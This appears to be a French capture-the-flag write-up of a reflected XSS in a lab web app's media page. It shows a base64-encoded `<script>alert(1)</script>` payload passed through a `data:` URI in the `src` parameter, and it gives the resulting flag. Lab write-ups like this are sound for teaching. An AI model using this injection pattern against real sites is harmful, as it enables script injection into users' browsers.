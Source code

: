 # Reflected XSS

En cliquant sur la troisième image (NSA) sur la page d'index on arrive sur la page:

`http://192.168.56.101/?page=media&src=nsa`

On y découvre une image affichée grâce à une balise `<object>`

Après lecture de cet article: https://portswigger.net/web-security/cross-site-scripting#reflected-cross-site-scripting

> Reflected XSS is the simplest variety of cross-site scripting. It arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.
> Here is a simple example of a reflected XSS vulnerability:
> ```
> https://insecure-website.com/status?message=All+is+well.
> <p>Status: All is well.</p>
> ```

On va donc essayer d'injecter le payload suivant:
`<script>alert(1)</script>`

Comme on veut l'injecter dans la propriété `data` de `object`, on va devoir le convertir en `base64`:
`PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==`

(Converti par https://www.base64decode.org)

Ce qui nous donne l'url suivante pour attaquer:

http://192.168.56.101/index.php?page=media&src=%22data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==%22

On obtient le flag:
```
928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
```
